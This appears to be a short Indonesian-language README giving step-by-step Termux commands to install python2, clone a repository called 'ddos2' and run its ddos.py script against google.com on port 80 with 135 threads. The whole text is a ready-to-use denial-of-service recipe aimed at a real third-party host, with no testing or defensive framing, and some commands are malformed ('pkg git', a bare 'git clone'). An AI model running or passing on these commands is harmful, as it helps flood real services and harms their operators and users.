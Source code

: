 Menggunakan DDOS dengan termux bye MRZ ID

kode perintah 

pkg update && pkg upgrade
pkg git 
pkg python2
git clone
git clone https://github.com/MRZofficial236/ddos2
cd ddos2
python2 ddos.py -s google.com -p 80 -t 135 
